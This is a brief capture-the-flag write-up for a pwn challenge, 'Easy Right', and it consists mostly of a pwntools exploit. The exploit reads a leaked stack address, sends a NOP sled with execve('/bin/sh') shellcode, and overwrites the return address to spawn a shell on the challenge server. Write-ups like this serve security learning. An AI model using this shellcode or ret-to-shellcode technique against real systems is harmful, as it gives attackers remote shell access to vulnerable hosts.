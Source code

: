 # Easy Right 150 pts(61 solves) #
![TASK](https://imgur.com/KPAwfTa.png)

It was a simple Ret to shellcode task,and we are given a leak of the stack address , here is my exploit 

```python

from pwn import *
p=remote("142.93.113.134",9999)
#p=process("./baby")
data=p.recvline()
stack=int("0x"+data[-13:],16)
log.info("Stack address: "+hex(stack))
#pause()
shellcode="\x90\x90\x90\x90\x90\x90\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
OFFSET=cyclic(100)
payload=shellcode
payload+=OFFSET
payload+=p64(stack)
p.sendline(payload)
p.interactive()

```
**Note:** Here is the link of the binary [HERE]()
Any questions you can DM on twitter @BelkahlaAhmed1 , thank you :D
